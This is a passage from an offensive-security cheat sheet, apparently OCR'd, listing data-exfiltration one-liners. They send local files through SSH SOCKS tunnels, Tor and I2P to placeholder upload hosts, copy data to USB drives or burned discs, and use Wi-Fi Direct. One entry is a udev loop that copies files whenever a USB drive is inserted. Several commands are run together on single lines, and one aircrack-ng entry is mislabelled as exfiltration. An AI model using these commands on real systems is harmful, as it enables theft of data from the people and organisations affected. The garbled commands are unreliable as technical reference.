 #### Exfiltrate Data Over a Covert SSH Tunnel
- **Exfiltrate Data Over a Covert SSH Tunnel:**
	```bash
	ssh -D 8080 <username>@<remote_ip> curl --socks5 localhost:8080 -T /path/to/local_file http://<remote_ip>/upload
	```
- **Use Tor for Encrypted P2P Exfiltration:**
	```bash
	torify curl -X POST -d @/path/to/local_file http://<onion_address>/upload
	```
- **Exfiltrate Data Over I2P:**
	```bash
	i2prouter start curl -X POST -d @/path/to/local_file http://<i2p_address>/upload
	```

# Data Exfiltration via Physical Media

#### USB Drive Exfiltration
- **Mount USB:**
	```bash
	mount /dev/sdb1 /mnt/usb
	```
- **Copy Files to a USB Drive:**
	```bash
	cp /path/to/local_file /media/usb/
	```

	```bash
	dd if=<file_to_exfiltrate> of=/mnt/usb/<output_file>
	```
- **Automatically Exfiltrate Data When USB Is Inserted:**
	```bash
	udevadm monitor --udev | while read -r line; do     if [[ "$line" == *"add"* ]]; then         cp /path/to/local_file /media/usb/     fi done
	```

#### Burning Data to a CD/DVD
- **Burn Exfiltrated Data to a CD/DVD:**
	```bash
	genisoimage -o /path/to/output.iso /path/to/local_file wodim -v dev=/dev/cdrom /path/to/output.iso
	```

# Data Exfiltration via Wireless

#### Wireless Networks
- **Exfiltrate Data Over Wi-Fi Using `aircrack-ng`:**
	```bash
	aircrack-ng -b <target_bssid> -w /path/to/wordlist handshake.cap
	```
- **Use Wi-Fi Direct for Data Exfiltration:**
	```bash
	wpa_cli p2p_find wpa_cli p2p_connect <target_mac> pbc scp /path/to/local_file <username>@<peer_ip>:/path/to/remote_directory
	```
